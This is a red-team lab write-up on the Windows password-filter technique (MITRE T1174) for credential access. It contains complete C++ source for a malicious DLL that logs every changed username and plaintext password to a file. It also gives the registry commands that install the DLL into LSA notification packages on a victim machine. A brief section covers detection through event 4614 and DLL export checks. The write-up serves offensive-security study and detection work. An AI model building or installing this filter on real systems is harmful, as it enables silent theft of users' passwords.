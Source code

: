 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That, of course means, that the password can be intercepted and logged.

## Execution

Password filters are registered in registry and we can see them here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Or via regedit:

![](../../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported correctly in order for this technique to work, since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victim system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../../.gitbook/assets/password-filter-createdtime.png)

Also, it may be worth considering checking new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify`function:

![](../../.gitbook/assets/password-filter.png)

## References

{% embed url="http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1174" %}

